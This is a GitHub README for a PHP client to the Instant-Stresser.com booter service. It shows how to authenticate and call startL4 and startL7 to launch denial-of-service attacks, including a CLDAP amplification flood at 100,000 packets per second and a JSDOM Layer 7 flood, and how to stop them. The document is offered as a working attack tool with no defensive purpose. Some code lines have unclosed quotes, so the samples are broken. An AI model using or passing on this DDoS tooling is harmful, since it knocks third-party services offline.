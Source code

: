 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = 123456789;
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = "80;
$time = "15";
$method = "CLDAP";
$slots = 1;
$pps = 100000;

/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4($host, $port, $time, $method, $slots, $pps);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = "15";
$method = "JSDOM";
$slots = 1;
$requesttype = "GET;
$ratelimit = "false";

/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7($host, $time, $method, $slots, $requesttype, $ratelimit);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
